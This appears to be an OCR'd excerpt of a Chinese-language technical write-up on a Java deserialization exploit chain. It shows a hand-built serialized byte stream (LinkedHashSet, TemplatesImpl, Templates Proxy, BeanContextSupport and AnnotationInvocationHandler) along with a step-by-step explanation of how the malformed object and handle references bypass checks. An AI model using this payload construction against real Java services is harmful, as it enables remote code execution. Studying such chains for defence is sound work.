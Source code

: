 ```java
                "sun.reflect.annotation.AnnotationInvocationHandler",
                6182022883658399397L,       // serialVersionUID
                (byte) (SC_SERIALIZABLE | SC_WRITE_METHOD),
                (short) 2,                  // field count
                (byte) 'L', "type", TC_STRING, "Ljava/lang/Class;",         // type field
                (byte) 'L', "memberValues", TC_STRING, "Ljava/util/Map;",   // memberValues field
                TC_ENDBLOCKDATA,
                TC_NULL,                    // no superclass

                // (5) Field Values
                Templates.class,            // type field value
                map,                        // memberValues field value

                // note: at this point normally the BeanContextSupport.readChildren would try to read the
                // BCSChild; but because the deserialization of the AnnotationInvocationHandler above throws,
                // we skip past that one into the catch block, and continue out of readChildren

                // the exception takes us out of readChildren and into BeanContextSupport.readObject
                // where there is a call to deserialize(ois, bcmListeners = new ArrayList(1));
                // Within deserialize() there is an int read (0) and then it will read as many obejcts (0)

                TC_BLOCKDATA,
                (byte) 4,                   // block length
                0,                          // no BeanContextSupport.bcmListenes
                TC_ENDBLOCKDATA,

                // (6) value for the Proxy.h field
                TC_REFERENCE, baseWireHandle + offset + 16, // refer back to the AnnotationInvocationHandler

                TC_ENDBLOCKDATA,
        };
...
```
1. 构造`LinkedHashSet`的结构信息
2.  写入payload中`TemplatesImpl`对象
3.  构造`Templates Proxy`的结构，一共2个成员:
    1.  这里定义了一个虚假的`dummy`成员,后续赋值为`BeanContextSupport`对象，虚假成员也会进行反序列化操作
    2.  真实的`h`成员，后续赋值为`InvocationHandler`对象
4.  赋值`dummy`成员的值为`BeanContextSupport`对象，同时构建了其结构。这里为了`BeanContextSupport`对象反序列化时能走到`readChildren`方法，做了以下2个操作:
    1.  设置`serializable`>0
    2.  父类 `beanContextChildPeer`成员的值为当前对象: 由于`BeanContextChildSupport`对象已经出现过了,这里直接进行`TC_REFERENCE`引用对应的`Handle`
5.  插入非法的`AnnotationInvocationHandler`对象。前面分析过在`readChildren`方法中会再次进行`ois.readObject()`，因此会将此对象反序列化并且捕捉异常，产生一个Handle
6.  赋值`h`成员的值，这里使用`TC_REFERENCE`引用到刚刚产生的newHandle即可，需要手动计算handle值

